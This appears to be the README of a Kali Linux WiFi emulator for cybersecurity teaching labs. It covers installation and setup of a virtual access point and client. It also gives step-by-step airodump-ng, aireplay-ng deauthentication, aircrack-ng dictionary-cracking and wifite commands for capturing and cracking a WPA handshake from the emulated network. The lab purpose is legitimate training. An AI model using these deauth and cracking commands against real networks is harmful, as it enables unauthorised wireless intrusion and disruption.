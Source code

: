 # Intro
Welcome to WiFi Emulator!
Please let me know if you have any questions or suggestions.
Kaled Aljebur,

Please note: it is only been tested on Kali so far.

## To install, in Kali terminal
1. Install the package using `pipx install wifi-emulator`
2. Then run this command to install it as an app `wifi-emulator-setup`
3. Then you can start it from the applications menu in Kali, search for `WiFi Emulator`


Run the steps in the following order:
1. Generate Access Point Conf file
2. Edit ap.conf if needed
3. Generate Access Client Conf file
4. Edit client.conf if needed
5. Create Virtual Interfaces
6. Start Access Point on wlan0
7. Start Access Client on wlan1
8. (Optional) Run Wifite for capture/cracking

Other Buttons:
- Reset: Remove all virtual interfaces and temp files
- Close: Exit the application
- Status: Check the status of network interfaces, wlan0, and wlan1
- Help: Show this window

Clikc on `Open Root Terminal button`, then follow:
1.  Enable monitor mode on wlan2
    - `airmon-ng start wlan2`
    - This will change wlan2 into wlan2mon, use `ip a` to check
2.  Scan the avillable wireless networks
    - `airodump-ng wlan2mon`
3.  Start capturing the WPA hansshape from the targeted AP
    - `airodump-ng wlan2mon --bssid ce:7f:82:23:49:53 --channel 6 -w capture`
    - Change ce:7f:82:23:49:53 with wlan0 MAC address
    - If handshake captured, you will see `WPA handshake...` in the top right
4.  If no hsndshake captured, open new terminal tab, then try to de-auth
    - `aireplay-ng --deauth 3 -a ce:7f:82:23:49:53 wlan2mon`
    - Change ce:7f:82:23:49:53 with wlan0 or wlan1 MAC address
5.  Stop all commands when see WPA handshake captured,
    - all capturing files located in /var/log/wifi-emulator/capture
6.  Try dictionary attack to get the wifi key from the captured handshake
    - `aircrack-ng capture-01.cap -w /usr/share/dict/wordlist-probable.txt`

Or, clikc on `Open Root Terminal button`, type `wifite` then do:
- Select wlan2 as monitoring interface
- Select the Access Point CyberWifi
- Wifite will try to de-authentiate to ceapture the WPA handshake
- Little wait and you will see the cracked default key
- Wifite files are will be located in /var/log/wifi-emulator/capture
- Each time you run Wifite, /var/log/wifi-emulator/capture will be cleared

Note:
- Do not clock on "Generate..." after editing because your edit will be gone
- Ensure you run this tool with root (sudo)
- Use the status buttons to see the outputs
- All logs and Wifite cracking results will be saved in /var/log/wifi-emulator/

This application was created for educational and research purposes in 
cybersecurity teaching labs. The traffic generated between wlan0 and wlan1 is 
realistic and suitable for hands-on research.

# Install .deb in Kali
- To install:
    - Download [wifi-emulator.deb](https://github.com/kaledaljebur/wifi-emulator/blob/main/wifi-emulator.deb)
    - Use `sudo apt update && sudo apt install -y ~/Downloads/wifi-emulator.deb`
- To remove:
    - `sudo dpkg -r wifi-emulator`